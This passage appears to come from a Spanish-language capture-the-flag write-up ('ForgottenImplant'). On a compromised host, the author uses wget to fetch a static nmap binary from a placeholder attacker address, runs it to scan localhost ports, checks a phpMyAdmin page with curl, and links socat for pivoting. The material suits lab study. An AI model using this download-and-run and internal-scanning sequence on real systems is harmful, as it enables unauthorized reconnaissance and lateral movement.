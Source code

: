 {% embed url="https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap" %}

Escaneamos la red interna.

```
wget http://<ip>:<port>/nmap
chmod +x nmap
./nmap -Pn -p- -T4 127.0.0.1
```


```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
3306/tcp  open  mysql
33060/tcp open  unknown
```


<figure><img src="../.gitbook/assets/ForgottenImplant/nmapada1.png" alt=""><figcaption></figcaption></figure>

Como podemos observar, hay un puerto `80` que corresponde a `HTTP`. Podemos utilizar curl para verificar qué contenido tiene.

```
curl 127.0.0.1:80
```

Al revisar el código, podemos notar que corresponde a una página de `phpAdmin`. Sin embargo, dado que el servidor no está en funcionamiento y no tenemos privilegios para iniciarlo, debemos descargar otro binario y ejecutarlo.

{% embed url="https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat" %}

